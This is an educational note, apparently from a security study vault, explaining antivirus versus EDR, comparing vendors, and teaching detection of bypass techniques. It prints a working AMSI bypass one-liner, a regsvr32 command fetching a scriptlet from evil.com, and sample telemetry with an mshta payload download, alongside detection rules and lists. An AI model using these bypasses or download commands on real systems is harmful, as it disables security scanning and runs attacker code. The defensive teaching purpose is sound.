


# 🛡️ Antivirus and EDR

> [!abstract] TL;DR
> Traditional AV uses file **signatures** to match known malware hashes — fast and cheap, but easily defeated by polymorphism or fileless attacks. **EDR (Endpoint Detection and Response)** continuously collects process, network, and memory telemetry, applying behavioural analytics to detect threats signatures miss. Leading platforms: **CrowdStrike Falcon**, **SentinelOne**, **Microsoft Defender for Endpoint**, **VMware Carbon Black**. XDR extends EDR correlation to network and cloud. Defenders must also understand bypass techniques — AMSI bypass, LOLBins — to tune detections against real attacker tradecraft.

---

## Intuition — Analogy First

Traditional AV is like a **bouncer with a mugshot book** — they only stop criminals whose photos are in the book. A criminal who shaves their head (polymorphic malware) or wears a disguise (obfuscation) walks right in.

EDR is like a **CCTV system with behavioural analysts**: it watches what every person in the building does, not just their face. If someone starts opening filing cabinets, photographing documents, and heading for the exit at 3am — alert. The behaviour is suspicious regardless of their ID card.

XDR extends this across the entire building (network, cloud, email), correlating signals from the front desk (email gateway), the server room (cloud workload), and the CCTV (endpoint telemetry) into a unified picture.

---

## How It Works

### Traditional AV — Detection Mechanisms



| Detection Method | How It Works | Strength | Weakness |
|-----------------|-------------|----------|----------|
| **Signature (hash)** | MD5/SHA256 of file vs. threat database | Fast, zero false positives on known malware | Fails on any modified binary (single byte change = new hash) |
| **Heuristic / Static** | PE structure analysis, suspicious imports, entropy | No sample needed | High FP rate; polymorphic malware evades |
| **Behavioural (legacy)** | API call monitoring (VirtualAlloc, WriteProcessMemory) | Catches known exploit patterns | Limited visibility; evasion by sleeping before hooking |
| **Machine Learning (NGAV)** | Train on millions of files: features → malicious/benign | Catches novel variants | Model can be probed and evaded; FP on unusual software |

---

### EDR — Architecture



**Key EDR capabilities:**
- **Process tree visualization** — see parent → child process relationships (e.g., `Word.exe → powershell.exe → cmd.exe → mshta.exe` is suspicious)
- **Memory scanning** — scan running process memory for shellcode or injected DLLs without a disk artifact
- **Threat hunting** — query weeks of telemetry retroactively (e.g., "show all systems that ran mimikatz in the last 30 days")
- **Automated response** — one-click or policy-driven: isolate host from network, kill process, delete file, block hash globally

---

### Major EDR Products Compared

| Product | Vendor | Key Strength | Deployment | Notes |
|---------|--------|-------------|------------|-------|
| **CrowdStrike Falcon** | CrowdStrike | Industry-leading detection rates, cloud-native | Agent (cloud-only) | Used by US gov; July 2024 outage was BSOD bug in content update |
| **SentinelOne Singularity** | SentinelOne | Autonomous AI response, rollback capability | Agent (cloud or on-prem) | Strong automated response; "Storyline" process correlation |
| **Microsoft Defender for Endpoint** | Microsoft | Native Windows integration, no extra agent | Built-in (Windows 10+) | Excellent value; MDE P2 = full EDR; tight M365 integration |
| **VMware Carbon Black** | Broadcom | Strong threat hunting, enterprise telemetry | Agent | Deep query capability; less consumer-oriented |
| **Elastic Security** | Elastic | Open-source SIEM + EDR integration | Agent + Elastic Stack | Lower cost; requires operational investment |

---

### NGAV vs EDR vs EPP vs XDR

| Term | Scope | Focus | Who Uses It |
|------|-------|-------|-------------|
| **AV (legacy)** | Endpoint, file-based | Signature + heuristic detection | Legacy deployments |
| **NGAV** | Endpoint, ML-driven | Pre-execution prevention | Replaces legacy AV |
| **EPP** | Endpoint | Prevention-first (NGAV + firewall + device control) | Organizations wanting prevention platform |
| **EDR** | Endpoint | Detection + response + telemetry | SOC teams with active hunting |
| **XDR** | Endpoint + Network + Cloud + Email | Cross-surface correlation | Mature security teams |

---

### Bypass Techniques Defenders Must Know

**Why defenders need to understand bypasses:** You cannot write detection rules for techniques you don't understand. Red team knowledge = better blue team coverage.

**1. AMSI Bypass (Antimalware Scan Interface)**

AMSI is a Windows interface that lets AV engines scan PowerShell, JScript, and VBA scripts *in memory before execution*. Without AMSI, a script obfuscated enough to avoid on-disk detection runs freely.

Common AMSI bypass techniques:
```powershell
# Method 1: Reflection (patch AMSI to always return 0 = clean)
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Method 2: Memory patching (overwrite amsi.dll AmsiScanBuffer return value)
# Requires calling Win32 VirtualProtect + WriteProcessMemory

# Method 3: Obfuscation to break string signatures
# "AMSI" → "AM`SI" (PowerShell backtick expansion defeats static scan)
```

**Detection:** Alert on reflection calls to `AmsiUtils`, `amsiInitFailed`. Monitor for `VirtualProtect` on `amsi.dll`. EDR memory scanning catches patching attempts.

**2. LOLBins (Living Off the Land Binaries)**

Attackers abuse legitimate, signed Windows binaries to execute code, bypassing AV whitelisting:

| Binary | Legitimate Use | Abuse |
|--------|---------------|-------|
| `certutil.exe` | Certificate management | Download remote payload (`-urlcache -f`) |
| `mshta.exe` | Run HTA applications | Execute VBScript/JScript from URL |
| `regsvr32.exe` | Register COM DLLs | `regsvr32 /s /n /u /i:http://evil.com/payload.sct scrobj.dll` |
| `wscript.exe` | Run WSH scripts | Execute obfuscated VBScript dropper |
| `rundll32.exe` | Load DLLs | Execute DLLs with custom export function |
| `msiexec.exe` | Install MSI packages | Install malicious MSI from URL |

**Detection:** These binaries running with unusual command-line arguments (URLs, base64 strings) trigger EDR behavioural rules. Reference: [LOLBAS project](https://lolbas-project.github.io/)

---

## Code Demo — Simulating EDR Process Telemetry Analysis

```python
"""
Simulate analysing EDR process creation telemetry for suspicious patterns.
This mimics what an EDR or SIEM correlation rule does in practice.
"""

from dataclasses import dataclass
from typing import Optional
import re

@dataclass
class ProcessEvent:
    timestamp: str
    pid: int
    ppid: int
    process_name: str
    parent_name: str
    command_line: str
    user: str

# Sample telemetry — process creation events
EVENTS = [
    ProcessEvent("2026-07-29T02:14:33Z", 4892, 3120, "powershell.exe",
                 "WINWORD.EXE",
                 "powershell.exe -enc JAB...",           # Base64 payload
                 "jdoe"),
    ProcessEvent("2026-07-29T02:14:35Z", 5001, 4892, "cmd.exe",
                 "powershell.exe",
                 "cmd.exe /c whoami && net user",
                 "jdoe"),
    ProcessEvent("2026-07-29T02:14:36Z", 5102, 4892, "mshta.exe",
                 "powershell.exe",
                 "mshta.exe http://192.168.1.200:8080/payload.hta",  # LOLBin + C2
                 "jdoe"),
    ProcessEvent("2026-07-29T09:00:01Z", 1234, 888, "chrome.exe",
                 "explorer.exe",
                 "chrome.exe --profile-directory=Default",  # Benign
                 "jdoe"),
]

# Detection rules
SUSPICIOUS_PARENTS = {"WINWORD.EXE", "EXCEL.EXE", "OUTLOOK.EXE", "ACRORD32.EXE"}
LOLBINS           = {"certutil.exe", "mshta.exe", "regsvr32.exe", "wscript.exe",
                     "rundll32.exe", "msiexec.exe"}
RECON_COMMANDS    = re.compile(r"\b(whoami|net user|net group|nltest|ipconfig|netstat)\b", re.I)
B64_ENCODED       = re.compile(r"-enc(odedcommand)?\s+[A-Za-z0-9+/]{20,}={0,2}", re.I)
REMOTE_URL        = re.compile(r"https?://\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}", re.I)

def analyse_event(event: ProcessEvent) -> Optional[str]:
    """Return alert string if suspicious, else None."""
    alerts = []

    if event.parent_name.upper() in SUSPICIOUS_PARENTS and \
       event.process_name.lower() in {"powershell.exe", "cmd.exe", "wscript.exe", "mshta.exe"}:
        alerts.append(f"OFFICE_CHILD_PROCESS: {event.parent_name} spawned {event.process_name}")

    if event.process_name.lower() in LOLBINS:
        alerts.append(f"LOLBIN_EXECUTION: {event.process_name}")

    if B64_ENCODED.search(event.command_line):
        alerts.append("ENCODED_POWERSHELL: base64 encoded command detected")

    if RECON_COMMANDS.search(event.command_line):
        alerts.append(f"RECON_COMMANDS: {event.command_line[:80]}")

    if REMOTE_URL.search(event.command_line):
        alerts.append(f"REMOTE_URL_IN_CMDLINE: possible C2 download")

    if alerts:
        return f"[ALERT] PID={event.pid} User={event.user} | " + " | ".join(alerts)
    return None

print("=== EDR Telemetry Analysis ===\n")
for ev in EVENTS:
    result = analyse_event(ev)
    if result:
        print(f"  {ev.timestamp}  {result}")
        print(f"    CommandLine: {ev.command_line}\n")
    else:
        print(f"  {ev.timestamp}  [CLEAN] {ev.process_name} (PID {ev.pid})\n")

# Expected output:
# 2026-07-29T02:14:33Z  [ALERT] PID=4892 User=jdoe | OFFICE_CHILD_PROCESS: WINWORD.EXE spawned powershell.exe | ENCODED_POWERSHELL
# 2026-07-29T02:14:35Z  [ALERT] PID=5001 User=jdoe | RECON_COMMANDS: cmd.exe /c whoami && net user
# 2026-07-29T02:14:36Z  [ALERT] PID=5102 User=jdoe | LOLBIN_EXECUTION: mshta.exe | REMOTE_URL_IN_CMDLINE
# 2026-07-29T09:00:01Z  [CLEAN] chrome.exe (PID 1234)
```

---

## Real-World Notes

- **CrowdStrike July 2024 outage** — a faulty content configuration update (Channel File 291) pushed to Falcon sensors caused 8.5 million Windows systems to BSOD. Illustrates the systemic risk of EDR agents running in kernel space with automatic cloud content updates.
- **SentinelOne AI detection** claimed 99%+ detection with ~0.1% FP rate in independent MITRE ATT&CK evaluation rounds. Real-world FP rates in enterprise environments are typically higher due to custom software.
- **Microsoft Defender ATP / MDE** now ships with every Windows Server and is included in Microsoft 365 E5 licensing. Many enterprises have effectively free full-EDR capability they haven't enabled.
- **Carbon Black** (now VMware/Broadcom) offers **process block list and allow list** modes: in "default allow" mode, everything runs unless blocked; in "default deny" mode, only approved processes run — highly effective but very high operational overhead.

---

## Trade-offs

| Dimension | Legacy AV | NGAV | EDR |
|-----------|-----------|------|-----|
| Known malware detection | High | High | High |
| Novel/polymorphic malware | Poor | Good | Good–Excellent |
| Fileless/memory-only threats | Poor | Poor | Excellent |
| False positive rate | Low | Medium | Medium–High |
| Operational overhead | Low | Low | High |
| Cost | Low | Medium | High |
| Threat hunting capability | None | None | Core feature |
| Automated response | Limited | Limited | Full |

---

## Common Pitfalls

1. **EDR in "detect only" mode** — Many deployments leave EDR in passive mode to avoid disrupting operations. Attackers know this; they test against common EDR platforms. "Detect only" means you see alerts but the attack continues.
2. **Not reviewing the process tree** — EDR alerts on a single event miss the story. Always look at the full process tree: who spawned what, when, with what arguments.
3. **Blind trust in cloud AV verdicts** — AV vendors update their cloud verdict databases; a file that was "clean" yesterday may be retroactively flagged. Build processes to re-scan files on verdict updates.
4. **Ignoring AMSI bypass** — If threat actors can bypass AMSI (very common), all PowerShell-based detection rules that rely on AMSI-intercepted content fail silently.
5. **Not mapping detections to ATT&CK** — Without technique mapping, you can't identify gaps in your detection coverage. Regularly run ATT&CK Evaluations or simulate techniques with tools like Atomic Red Team.

---

## Related Concepts

- [[Endpoint_Security_Overview|← Endpoint Security Overview]] — defence-in-depth context
- [[OS_Hardening|→ OS Hardening]] — hardening reduces the attack surface EDR must monitor
- [[Application_Control_and_Allowlisting|→ Application Control]] — complementary prevention layer
- [[Threat_Hunting|→ Threat Hunting]] — using EDR telemetry proactively
- [[MITRE_ATT_CK|← MITRE ATT&CK]] — maps to T1059 (scripting), T1055 (injection), T1562 (impair defences)
- [[_MOC_Endpoint_Security|↑ Endpoint Security MOC]]

---

## Review Questions

1. Explain why signature-based AV detection fails against polymorphic malware, and describe two mechanisms EDR uses that *do* detect polymorphic threats.
2. A security engineer argues that deploying CrowdStrike makes legacy AV unnecessary. Under what circumstances might this be incorrect? Consider both technical and operational reasons.
3. Describe how an attacker could use `mshta.exe` to execute a payload while evading signature-based AV. What specific EDR detection rule(s) would catch this?

---

## Sources

- CrowdStrike Threat Intelligence 2023 Global Threat Report
- MITRE ATT&CK: T1059 (Scripting), T1055 (Process Injection), T1562 (Impair Defenses)
- LOLBAS Project: https://lolbas-project.github.io/
- AMSI documentation: https://docs.microsoft.com/en-us/windows/win32/amsi/
- Atomic Red Team: https://github.com/redcanaryco/atomic-red-team

#Cybersecurity #EDR #AV #NGAV #XDR #CrowdStrike #SentinelOne #LOLBins #AMSI #endpoint-security
